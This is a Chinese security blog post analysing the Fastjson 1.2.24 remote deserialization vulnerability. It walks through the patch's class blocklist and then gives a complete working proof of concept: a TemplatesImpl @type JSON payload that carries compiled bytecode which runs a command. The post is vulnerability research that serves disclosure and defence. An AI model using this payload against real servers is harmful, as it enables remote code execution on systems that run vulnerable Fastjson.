

# 【技术分享】Fastjson 远程反序列化程序验证的构造和分析


                                阅读量   
                                **118789**
                            
                        |
                        
                                                                                    


**[](./img/86000/t01ae4739a10c14cca0.png)**

**作者：廖新喜@绿盟科技**

**blog：**[**http://xxlegend.com**](http://xxlegend.com)** **

** **

**背景**

**fastjson是一个java编写的高性能功能非常完善的JSON库，应用范围非常广，在github上star数都超过8k，在2017年3月15日，fastjson官方主动爆出fastjson在1.2.24及之前版本存在远程代码执行高危安全漏洞。攻击者可以通过此漏洞远程执行恶意代码来入侵服务器。**关于漏洞的具体详情可参考 [https://github.com/alibaba/fastjson/wiki/security_update_20170315](https://github.com/alibaba/fastjson/wiki/security_update_20170315)


**受影响的版本**

fastjson &lt;= 1.2.24


**静态分析**

根据官方给出的补丁文件，主要的更新在这个checkAutoType函数上，而这个函数的主要功能就是添加了黑名单，将一些常用的反序列化利用库都添加到黑名单中。具体包括

```
bsh,com.mchange,com.sun.,java.lang.Thread,java.net.Socket,java.rmi,javax.xml,org.apache.bcel,org.apache.commons.beanutils,org.apache.commons.collections.Transformer,org.apache.commons.collections.functors,org.apache.commons.collections4.comparators,org.apache.commons.fileupload,org.apache.myfaces.context.servlet,org.apache.tomcat,org.apache.wicket.util,org.codehaus.groovy.runtime,org.hibernate,org.jboss,org.mozilla.javascript,org.python.core,org.springframework
```

下面我们来分析checkAutoType的函数实现：


```
public Class&lt;?&gt; checkAutoType(String typeName, Class&lt;?&gt; expectClass) {
        if (typeName == null) {
            return null;
        }
        if (typeName.length() &gt;= maxTypeNameLength) {
            throw new JSONException("autoType is not support. " + typeName);
        }
        final String className = typeName.replace('$', '.');
        if (autoTypeSupport || expectClass != null) {
            for (int i = 0; i &lt; acceptList.length; ++i) {
                String accept = acceptList[i];
                if (className.startsWith(accept)) {
                    return TypeUtils.loadClass(typeName, defaultClassLoader);
                }
            }
            for (int i = 0; i &lt; denyList.length; ++i) {
                String deny = denyList[i];
                if (className.startsWith(deny)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }
        Class&lt;?&gt; clazz = TypeUtils.getClassFromMapping(typeName);
        if (clazz == null) {
            clazz = deserializers.findClass(typeName);
        }
        if (clazz != null) {
            if (expectClass != null &amp;&amp; !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -&gt; " + expectClass.getName());
            }
            return clazz;
        }
```

核心部分就是denyList的处理过程，遍历denyList，如果引入的库以denyList中某个deny打头，就会抛出异常，中断运行。


**POC构造**

静态分析得知，要构造一个可用的poc，肯定得引入denyList的库。刚开始fastjson官方公布漏洞信息时，当时就尝试构造poc，怎奈fastjson的代码确实庞大，还有asm机制，通过asm机制生成的临时代码下不了断点。当时也只能通过在通过类初始化的时候弹出一个计算器，很显然这个构造方式不具有通用性，最近jackson爆出反序列漏洞，其中就利用了TemplatesImpl类，而这个类有一个字段就是_bytecodes，有部分函数会根据这个_bytecodes生成java实例，简直不能再更妙，这就解决了fastjson通过字段传入一个类，再通过这个类执行有害代码。后来阅读ysoserial的代码时也发现在gadgets.java这个文件中也使用到了这个类来动态生成可执行命令的代码。下面是一个poc的代码


```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
public class Test extends AbstractTranslet {
    public Test() throws IOException {
        Runtime.getRuntime().exec("calc");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {
    }
    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```

这个是Test.java的实现，在Test.java的构造函数中执行了一条命令，弹出计算器。编译Test.java得到Test.class供后续使用。后续会将Test.class的内容赋值给_bytecodes。接着分析poc


```
package person;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
/**
 * Created by web on 2017/4/29.
 */
public class Poc {
    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());
    }
    public static void  test_autoTypeDeny() throws Exception {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        final String evilClassPath = System.getProperty("user.dir") + "\target\classes\person\Test.class";
        String evilCode = readClass(evilClassPath);
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String text1 = "{"@type":"" + NASTY_CLASS +
                "","_bytecodes":[""+evilCode+""],'_name':'a.b',"_outputProperties":{ }," +
                ""_name":"a","_version":"1.0","allowedProtocols":"all"}n";
        System.out.println(text1);
        Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
        //assertEquals(Model.class, obj.getClass());
    }
    public static void main(String args[]){
        try {
            test_autoTypeDeny();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

在这个poc中，最核心的部分是_bytecodes，它是要执行的代码，@type是指定的解析类，fastjson会根据指定类去反序列化得到该类的实例，在默认情况下，fastjson只会反序列化公开的属性和域，而com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl中_bytecodes却是私有属性，_name也是私有域，所以在parseObject的时候需要设置Feature.SupportNonPublicField，这样_bytecodes字段才会被反序列化。_tfactory这个字段在TemplatesImpl既没有get方法也没有set方法，所以是设置不了的，弹计算器的图中的poc中展示了但是实际运行却没有使用，只能依赖于jdk的实现，作者在1.8.0_25,1.7.0_05测试都能弹出计算器，某些版本中在defineTransletClasses()用到会引用_tfactory属性导致异常退出。接下来我们看下TemplatesImpl.java的几个关键函数：


```
public synchronized Properties getOutputProperties() {
    try {
        return newTransformer().getOutputProperties();
    }
    catch (TransformerConfigurationException e) {
        return null;
    }
}
```


```
public synchronized Transformer newTransformer()
    throws TransformerConfigurationException
{
    TransformerImpl transformer;
    transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
        _indentNumber, _tfactory);
    if (_uriResolver != null) {
        transformer.setURIResolver(_uriResolver);
    }
    if (_tfactory.getFeature(XMLConstants.FEATURE_SECURE_PROCESSING)) {
        transformer.setSecureProcessing(true);
    }
    return transformer;
}
```


```
private Translet getTransletInstance()
        throws TransformerConfigurationException {
        try {
            if (_name == null) return null;
            if (_class == null) defineTransletClasses();
            // The translet needs to keep a reference to all its auxiliary
            // class to prevent the GC from collecting them
            AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
            translet.postInitialization();
            translet.setTemplates(this);
            translet.setServicesMechnism(_useServicesMechanism);
            if (_auxClasses != null) {
                translet.setAuxiliaryClasses(_auxClasses);
            }
            return translet;
        }
        catch (InstantiationException e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
        catch (IllegalAccessException e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
    }
```


```
private void defineTransletClasses()
        throws TransformerConfigurationException {
        if (_bytecodes == null) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.NO_TRANSLET_CLASS_ERR);
            throw new TransformerConfigurationException(err.toString());
        }
        TransletClassLoader loader = (TransletClassLoader)
            AccessController.doPrivileged(new PrivilegedAction() {
                public Object run() {
                    return new TransletClassLoader(ObjectFactory.findClassLoader());
                }
            });
        try {
            final int classCount = _bytecodes.length;
            _class = new Class[classCount];
            if (classCount &gt; 1) {
                _auxClasses = new Hashtable();
            }
            for (int i = 0; i &lt; classCount; i++) {
                _class[i] = loader.defineClass(_bytecodes[i]);
                final Class superClass = _class[i].getSuperclass();
                // Check if this is the main class
                if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
                    _transletIndex = i;
                }
                else {
                    _auxClasses.put(_class[i].getName(), _class[i]);
                }
            }
            if (_transletIndex &lt; 0) {
                ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
                throw new TransformerConfigurationException(err.toString());
            }
        }
        catch (ClassFormatError e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_CLASS_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
        catch (LinkageError e) {
            ErrorMsg err = new ErrorMsg(ErrorMsg.TRANSLET_OBJECT_ERR, _name);
            throw new TransformerConfigurationException(err.toString());
        }
    }
```

在getTransletInstance调用defineTransletClasses，在defineTransletClasses方法中会根据_bytecodes来生成一个java类，生成的java类随后会被getTransletInstance方法用到生成一个实例，也也就到了最终的执行命令的位置Runtime.getRuntime.exec()

下面我们上一张调用链的图，

[](https://p1.ssl.qhimg.com/t0187a0b29a7bbd87bb.png)

,简单来说就是


```
JSON.parseObject
...
JavaBeanDeserializer.deserialze
...
FieldDeserializer.setValue
...
TemplatesImpl.getOutputProperties
TemplatesImpl.newTransformer
TemplatesImpl.getTransletInstance
...
Runtime.getRuntime().exec
```

附上一张成功执行图：

[](https://p3.ssl.qhimg.com/t01e94ceb1847e075e9.png)


**总结**

poc影响jdk 1.7，1.8版本，1.6未测试，但是需要在parseObject的时候设置Feature.SupportNonPublicField，最后给大家上个福利，github地址：完整的Intellij IDEA poc环境:[https://github.com/shengqi158/fastjson-remote-code-execute-poc](https://github.com/shengqi158/fastjson-remote-code-execute-poc)
